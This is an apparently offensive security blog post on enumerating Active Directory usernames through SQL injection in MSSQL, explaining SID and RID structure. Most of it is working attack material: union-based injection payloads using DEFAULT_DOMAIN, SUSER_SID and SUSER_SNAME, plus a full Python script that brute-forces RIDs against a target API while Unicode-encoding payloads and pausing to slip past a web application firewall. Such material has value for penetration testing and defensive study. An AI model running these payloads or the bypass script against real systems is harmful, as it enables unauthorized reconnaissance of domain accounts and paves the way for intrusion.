 [back](/)

### Username enumeration via SQL injection

Each account or group in the Active Directory has its own security identifier or (SID), which also includes a relative identifier (RID).

What are they needed for ? Windows operating system differentiates the rights in the Active Directory domain of a particular user, thanks to these identifiers, this is extremely important.

![Image](/img/username_enum-from-sqli/3.png)

Imagine that you are migrating from one domain to another, for example from **source.local** to **destination.local**, then the user's SID and RID will be changed. How exactly to preserve the rights of the user who is associated with security groups and a specific SID/RID ?

Naturally it will be changed during domain migration. The fact is that the access token is generated based on all previously created identifiers, including those that were previously assigned to the user. This is how the user's access token to objects is formed.

The SID/RID consists of several components shown in the diagram:

![Image](/img/username_enum-from-sqli/5.jpg)

To find out the SID in a specific domain it is enough to execute the DEFAULT_DOMAIN () MSSQL query, and than using the resulting identifier mask, you can enumerate usernames. Given this access model there is an interesting opportunity for an attacker who found an injection in the MSSQL database.

```
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
```

![Image](/img/username_enum-from-sqli/11.png)

Using the SUSER_SID and SUSER_SNAME queries, it is possible to enumerate usernames in the domain:

```
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236F4010000) -- 1
```

![Image](/img/username_enum-from-sqli/6.png)

![Image](/img/username_enum-from-sqli/7.png)

Knowing the structure of the SID and the process of generating RID, you can select 8 bytes related to RID and get a list of usernames in the AD. I wrote a small script to help you to do this. It contains WAF bypass elements associated with the waiting time. It also converts each payload character to Unicode, which indicates a non-standard injection:

```
#!/usr/bin/python3

import requests
import time
from requests.exceptions import HTTPError
from termcolor import colored

def convert_to_unicode(char):
 code = hex(ord(str(char)))[2:]
 prefix = "0" * (4 - len(code))
 return f'\\u{prefix}{code}'

def sqli_post(rid):
 val = "123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236"+r+") -- 1"
 res = ""
 for el in val:
  res += convert_to_unicode(el)
 response = requests.post(url, data='{"name":"'+res+'"}', headers = {"Content-Type":"application/json;charset=utf-8"})
 if "403 - Forbidden: Access is denied." in response.text:
  print(colored("[-] Sleeping and WAF cooldown", "red"))
  time.sleep(60)
 if "\\" in response.text:   
  print(colored("[+]"+response.text+"\r\nRID: "+r,"green"))

for url in ['http://10.10.10.10/api/getSOMETHING']:
 try:
  for i in range(500,4000):
   q = hex(i)[2:]
   w = q[1:]
   e = w+"0"+q[:1]
   r = e+"0"*(8-len(e))
   sqli_post(r)

  for i in range(6001,6010):
   q = hex(i)[2:]
   w = q[2:]
   e = q[:2]
   r = w+e+"0"*(8-len(q))
   sqli_post(r)

 except HTTPError as http_err:
  print(f'HTTP error occurred: {http_err}')
 except Exception as err:
  print(f'Other error occurred: {err}')
 else:
  
  print('Success!\r\n')
```

The result will please you =)

![Image](/img/username_enum-from-sqli/12.png)

![Image](/img/username_enum-from-sqli/2.png)

To get a positive enumeration result, start with a sequential enumeration using these queries:

```
123' union select 1,2,3,4,5 -- 1
123' union select 1,2,3,4,@@version -- 1
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
```

For detailed information about the RID pool, you can use the following command:

```
dcdiag / test: ridmanager / v
```

![Image](/img/username_enum-from-sqli/9.png)

It will show the current status of the RID pool, the maximum possible pool, and the next RID that will be assigned to the domain user.

This method is especially effective if you do not have access to the remote call procedure through the **rpcclient** as well as a valid account in the domain:

![Image](/img/username_enum-from-sqli/10.png)

These articles will help you explore the issue in more detail:

+ [enumerating-domain-accounts](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)
+ [how-to-check-the-rid-pool-in-active-directory](https://www.windowstechno.com/how-to-check-the-rid-pool-in-active-directory/)
+ [varbinary-to-literal-varchar-copy-in-sql-server-2005](https://stackoverflow.com/questions/6424328/varbinary-to-literal-varchar-copy-in-sql-server-2005)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)



